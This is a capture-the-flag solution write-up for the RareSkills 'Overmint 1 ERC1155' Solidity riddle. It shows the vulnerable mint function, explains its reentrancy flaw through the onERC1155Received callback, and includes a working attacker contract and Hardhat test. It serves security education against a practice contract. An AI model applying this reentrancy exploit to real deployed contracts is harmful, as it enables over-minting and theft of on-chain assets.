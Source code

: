 ```yaml
---
title: RareSkills Solidity Riddles - Overmint 1 ERC1155 - Solution
date: '2023-11-26'
tags: ['security', 'solidity', 'ctfs']
draft: false
summary: Solution to the RareSkills Solidity Riddles - Overmint 1 ERC1155 CTF
---
```


# RareSkills Riddles - Overmint 1 ERC1155 - Solution

## Contract

```solidity
// SPDX-License-Identifier: GPL-3.0
pragma solidity 0.8.15;
import "@openzeppelin/contracts/utils/Address.sol";
import "@openzeppelin/contracts/token/ERC1155/ERC1155.sol";
import "@openzeppelin/contracts/token/ERC1155/utils/ERC1155Holder.sol";

contract Overmint1_ERC1155 is ERC1155 {
    using Address for address;
    mapping(address => mapping(uint256 => uint256)) public amountMinted;
    mapping(uint256 => uint256) public totalSupply;

    constructor() ERC1155("Overmint1_ERC1155") {}

    function mint(uint256 id, bytes calldata data) external {
        require(amountMinted[msg.sender][id] <= 3, "max 3 NFTs");
        totalSupply[id]++;
        _mint(msg.sender, id, 1, data);
        amountMinted[msg.sender][id]++;
    }

    function success(address _attacker, uint256 id) external view returns (bool) {
        return balanceOf(_attacker, id) == 5;
    }
}
```

## Exploit

The `mint` function doesn't follow the checks-effects-interactions pattern and is, therefore, vulnerable to reentrancy. To see this, note that the ERC1155 `_mint` function calls `_doSafeTransferAcceptanceCheck` under the hood, which in turn calls `onERC1155Received` on the receiving contract. This hands over control to the receiving contract before `amountMinted` is updated.

Therefore, we can solve this challenge using a custom `onERC1155Received` function that reenters `mint` until our attacker contract has a balance of 5 tokens of a given `id`.

_Overmint1_ERC1155_Attacker.sol_

```solidity
// SPDX-License-Identifier: GPL-3.0
pragma solidity 0.8.15;

import "@openzeppelin/contracts/token/ERC1155/IERC1155Receiver.sol";
import "./Overmint1-ERC1155.sol";

contract Overmint1_ERC1155_Attacker is IERC1155Receiver {
    Overmint1_ERC1155 public overmint1ERC1155;

    constructor(address _victim) {
        overmint1ERC1155 = Overmint1_ERC1155(_victim);
    }

    // Fallback function can be used to start the attack
    function attack() public {
        overmint1ERC1155.mint(0, "");
        overmint1ERC1155.safeTransferFrom(address(this), msg.sender, 0, 5, "");
    }

    function onERC1155Received(address operator, address from, uint256 id, uint256 value, bytes calldata data)
        external
        override
        returns (bytes4)
    {
        if (overmint1ERC1155.balanceOf(address(this), 0) < 5) {
            overmint1ERC1155.mint(0, "");
        }
        return this.onERC1155Received.selector;
    }

    function onERC1155BatchReceived(
        address operator,
        address from,
        uint256[] calldata ids,
        uint256[] calldata values,
        bytes calldata data
    ) external pure override returns (bytes4) {
        return this.onERC1155BatchReceived.selector;
    }

    function supportsInterface(bytes4 interfaceId) public view virtual override returns (bool) {
        return interfaceId == type(IERC1155Receiver).interfaceId;
    }
}
```

_Overmint1-ERC1155.js_

```javascript
const { loadFixture } = require('@nomicfoundation/hardhat-network-helpers')
const { expect } = require('chai')
const { ethers } = require('hardhat')

const NAME = 'Overmint1_ERC1155'

describe(NAME, function () {
  async function setup() {
    const [owner, attackerWallet] = await ethers.getSigners()

    const VictimFactory = await ethers.getContractFactory(NAME)
    const victimContract = await VictimFactory.deploy()

    return { victimContract, attackerWallet }
  }

  describe('exploit', async function () {
    let victimContract, attackerWallet
    before(async function () {
      ;({ victimContract, attackerWallet } = await loadFixture(setup))
    })

    it('conduct your attack here', async function () {
      const AttackerFactory = await ethers.getContractFactory('Overmint1_ERC1155_Attacker')
      const attackerContract = await AttackerFactory.connect(attackerWallet).deploy(
        victimContract.address
      )
      await attackerContract.connect(attackerWallet).attack()
    })

    after(async function () {
      expect(await victimContract.balanceOf(attackerWallet.address, 0)).to.be.equal(5)
      expect(await ethers.provider.getTransactionCount(attackerWallet.address)).to.lessThan(
        3,
        'must exploit in two transactions or less'
      )
    })
  })
})
```
